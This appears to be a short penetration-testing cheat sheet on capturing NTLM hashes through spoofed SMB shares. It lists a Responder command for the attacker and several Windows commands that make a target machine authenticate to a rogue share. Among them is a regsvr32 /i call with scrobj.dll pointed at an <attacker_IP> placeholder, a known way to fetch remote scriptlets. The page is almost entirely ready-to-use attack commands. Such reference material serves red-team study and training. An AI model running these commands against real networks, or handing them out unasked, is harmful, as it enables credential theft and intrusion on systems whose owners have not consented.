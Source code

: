 # 01 - Capture Hashes via Spoof SMB Shares

Search Tag(s): #mitm #responder #smb #relay #ntlm #scenarios

## 1.1 - Attacker

```
$ sudo responder -I <interface> -rdwv
```

## 1.2 - Target

```
C:\> net view \\snare

C:\> MpCmdRun.exe -Scan -ScanType 3 -File \\snare\share\file.txt

PS C:\> Resolve-DnsName -LlmnrOnly Snare 2> $Null

C:\> regsvr32.exe /s /u /i://<attacker_IP>/@snare scrobj.dll
```